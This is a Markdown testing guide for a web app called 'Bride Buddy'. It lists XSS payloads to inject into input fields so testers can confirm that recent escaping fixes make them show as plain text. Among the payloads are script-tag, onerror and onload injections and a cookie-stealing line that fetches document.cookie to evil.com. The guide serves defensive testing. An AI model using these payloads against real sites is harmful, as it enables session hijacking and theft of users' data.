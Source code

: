 # XSS Security Testing Guide - Bride Buddy

**Purpose**: Verify that all stored XSS vulnerabilities have been properly fixed.

**Date**: October 28, 2025

**Status**: ✅ All XSS fixes applied - Ready for testing

---

## Testing Overview

All pages have been patched with HTML escaping. This guide will help you verify that **NO** malicious scripts can execute.

### What You'll Do

1. Inject XSS payloads into various input fields
2. Verify they display as plain text (not execute)
3. Check that NO alert boxes, scripts, or other code runs

### Expected Result

All test payloads should display as **escaped text** like:
```
<script>alert('XSS')</script>  ← This exact text should appear
```

**NOT** as an alert box or executing code.

---

## Test Payloads

Use these payloads in all tests below:

```html
<!-- Basic Script -->
<script>alert('XSS')</script>

<!-- Image Error Handler -->
<img src=x onerror=alert('XSS')>

<!-- SVG OnLoad -->
<svg onload=alert('XSS')>

<!-- Iframe JavaScript -->
<iframe src="javascript:alert('XSS')">

<!-- Input AutoFocus -->
<input onfocus=alert('XSS') autofocus>

<!-- Body OnLoad -->
<body onload=alert('XSS')>

<!-- Advanced: Event Handler in Attribute -->
<img src=x:alert(alt) onerror=eval(src) alt=xss>

<!-- Session Theft Attempt (for manual review) -->
<img src=x onerror="fetch('https://evil.com?token='+document.cookie)">
```

---